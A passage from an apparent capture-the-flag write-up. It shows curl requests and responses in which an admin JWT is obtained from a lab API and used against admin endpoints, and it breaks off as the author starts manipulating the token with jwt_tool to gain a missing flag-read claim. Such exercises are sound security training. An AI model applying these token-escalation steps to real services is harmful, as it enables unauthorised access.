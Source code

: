 ```console
< server: uvicorn
< content-length: 930
< content-type: application/json
<
* Connection #0 to host universal-ship-api.cns-jv.tcc left intact
{"access_token":"eyJhbGciOiJSUzM4NCIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODMxMTExLCJpYXQiOjE2OTcxMzk5MTEsInN1YiI6IjEiLCJhZG1pbiI6dHJ1ZSwiZ3VpZCI6ImM3MTVhOWU5LTRlMGYtNDVhYi1iZDcwLTEzYThmY2NmZDM3OSJ9.CP1af64xNQ1O2Foyo-Q6ys3S7S7fvOoGyTOGIfOUjKOrbdNS4KsJkpsq9QX-pPpSnIEZu2r_-xgduuvEcfFtYJkBCyKDG7o1c9UoxxQpvuNAbDXxMstW96tT-I0M1KLkcQFpqGUVDYxhmkTzZUBIk8z939Ivr4ouZFBsCkIL8OrZ0SxeFm1uCioVdTldSz4XssgZFSyZA_VpWOXwvZN4SWhvfEIQW7Dj61_W4OGuDDGD8KevegBsqnZKXYHeEnX2Qm4x4fsAVoINvh-GmSKUEKMloJTe2RpZp1-9zdAVQmBNIE0AZ1FpC74MY0FoEtHsqIxwfcqr6sFJrbTT2exuxFiqcqTM36ntE5_gWlrU2WuoBGJUtHKxaKKoHnJgcwJhL08I1MYklDqdjo4dSNOyUms00SnmHgtTT6sRTNY2vjwIDo7Yd3M5FSdWSNIOlz682kAg3RNygjGNudXO-y_J4Lyqh8ZCBVJKvzo9-4CT4x_5QyA3CsUTMVE30uRFy3CTqCRccKss8DaSrWj5BGjrN66FrUIYUvyBokxj_pa_pPUNYxzSc34660YGgU_MElrZBBvo353RfCvQwZcXGtDXwI23_EGZYI0O35kOrewiG-kionpP3Z4VDcFCcogXrHIxs7Gl-EvjM0MWrvlXUOtMrt5-VU1wU1SNxDTZUJgukDc","token_type":"bearer"}
```

We now have another token (let's store it in `admintoken` env variable), which should be admin.

```console
$ curl -H "Authorization: Bearer $admintoken" http://universal-ship-api.cns-jv.tcc/api/v1/admin/
{"results":true}
```

Let's try and retrieve the flag with the admin token.

```console
$ curl -X PUT -H "Authorization: Bearer $admintoken" http://universal-ship-api.cns-jv.tcc/api/v1/admin/getFlag
{"detail":"flag-read key missing from JWT"}
```

That's not good. The token, even though it's admin one, seems to be missing some keys. We'll need to inspect and
manipulate it so let's obtain [jwt_tool].

Let's take a look inside

```text
./jwt_tool $admintoken
```


[jwt_tool]: https://github.com/ticarpi/jwt_tool
[ModHeader]: https://chrome.google.com/webstore/detail/modheader-modify-http-hea/idgpnmonknjnojddfkpgkljpfnnfcklj
